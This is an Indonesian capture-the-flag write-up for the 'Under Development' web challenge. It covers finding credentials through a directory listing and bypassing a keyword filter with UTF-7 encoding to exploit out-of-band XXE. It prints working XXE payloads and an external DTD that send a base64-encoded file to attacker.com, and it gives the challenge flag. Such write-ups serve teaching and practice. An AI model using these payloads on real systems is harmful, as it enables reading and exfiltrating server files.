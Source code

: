 # Under Development
---
## Deskripsi
Judul : Under Development
Deskripsi : Website ini sesuai judulnya jadi belum layak untuk dionlinekan ( ͡◉ ͜ʖ ͡◉)
## Solusi
Terdapat sebuah login form yang mengharuskan menginputkan username dan password. Pada halaman login terdapat gambar yang bernama autoindex nah itu merupakan sebuah clue bahwa module autoindex pada web server itu kemungkinan di enable. Jadi akan ada sebuah list file pada direktori. Ketika membuka gambar tersebut terdapat direktori assets. Disana terdapat file cred.txt. Tinggal masukin username dan passwordnya

Setelah itu terdapat form contact yang terdapat kerentanan XXE OOB dengan filter didalamnya yaitu 
```
if (strpos($content,"!ENTITY") || strpos($content,"!DOCTYPE") || strpos($content,"!ELEMENT") || strpos($content,".dtd") || strpos($content,"file://") ||  strpos($content,".php") ){
        echo "<br><p style='color: red;'>Malicious payload has been detected!</p>";
    }
```
Untuk letak flag.txt diberitahukan melalui salah satu halaman website tersebut yaitu di /flag.txt . Cara bypass tinggal di encode menggunakan UTF-7 untuk payload XML nya. Karena ini OOB untuk payloadnya 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "php://filter/convert.base64-encode/resource=/flag.txt">
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.xml">
  %dtd;
]>
<data>&send;</data>

```
Untuk payloadnya dapat menggunakan php://filter/convert.base64-encode/resource= kalau pakai file:// entah kenapa tidak bisa .Setelah di encode UTF-7 jadi
```
<?xml version="1.0" encoding="UTF-7"?>
+ADw-+ACE-DOCTYPE+ACA-data+ACA-+AFs-+AAo-+ACA-+ACA-+ADw-+ACE-ENTITY+ACA-+ACU-+ACA-file+ACA-SYSTEM+AAo-+ACA-+ACA-+ACI-php://filter/convert.base64-encode/resource+AD0-/flag.txt+ACI-+AD4-+AAo-+ACA-+ACA-+ADw-+ACE-ENTITY+ACA-+ACU-+ACA-dtd+ACA-SYSTEM+AAo-+ACA-+ACA-+ACI-http://attacker.com/evil.xml+ACI-+AD4-+AAo-+ACA-+ACA-+ACU-dtd+ADs-+AAo-+AF0-+AD4-+AAo-+ADw-data+AD4-+ACY-send+ADs-+ADw-/data+AD4-+AAo-
```
Untuk DTD nya filenya dapat disimpan menggunakan ekstensi .xml karena .dtd tidak diperbolehkan.
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;

```
Tinggal jalankan dan mendapatkan sebuah flag
![](pict.png)
#### ara2021{ezzz_pz_lemon_sqzzzz}